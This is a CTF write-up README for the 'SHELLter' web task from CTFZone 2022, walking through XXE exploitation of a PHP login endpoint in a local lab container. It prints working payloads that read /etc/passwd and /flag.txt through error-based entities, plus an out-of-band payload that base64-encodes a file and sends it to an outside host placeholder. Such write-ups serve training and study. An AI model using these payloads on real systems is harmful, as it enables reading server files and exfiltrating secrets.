








# SHELLter

Easy web task from CTFZone 2022

## Build instruction

Clone repo, build container with `docker-compose up` and go to `http://localhost:8008`

You can find exploit in `sploit/` folder.

## Walkthrough

First of all, let's visit starting page at `http://localhost:8008`:



Seems like we get a shell session, but default commands are working different or not working at all.



But first greetings message advises to use `help` command. And we have this list of commands: 



Now let's take a look at requests in proxy history and noticed interesting POST request:



Seems like its XXE, so let's send the request in Repeater and try exploiting this vulnerability. First of all, we can try to use classic XXE, but we won't get result of our payload:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root><name>&test;</name><password>&test;</password></root>
```



And here we can try to exploit vulnerability by 2 ways: out-of-band XXE and error-based XXE. 

### Method 1: Error-based XXE

What if we try to send incorrect xml? Will it cause error? Yep, also we will see full error text:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/wub-wub-wub'>]>
<root><name>&test;</name><password>&test;</password></root>
```



So, we have error-based XXE. We can exploit this vulnerability by declaring two entities: first entity will be used to read the file and second will cause an error. Something like this:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<root>1</root>
```



And now we need to find flag on filesystem (`/flag.txt`):

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag.txt">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<root>1</root>
```



### Method 2: OOB XXE

As you can see in `login.php` file, external dtd was deactivating using `LIBXML_NONET` constant. But you can use php wrapper to bypass it:

payload:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=../flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://{ip}/dtd.xml?%data;'>">
```

dtd:
```xml
<?xml version="1.0" ?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY > 
<!ENTITY % sp SYSTEM "php://filter/convert.base64-decode/resource=http://{ip}/dtd.xml"> 
%sp; 
%param1; 
]> 
<r>&exfil;</r>
```

Or you can use https to bypass (idk, php is so funny )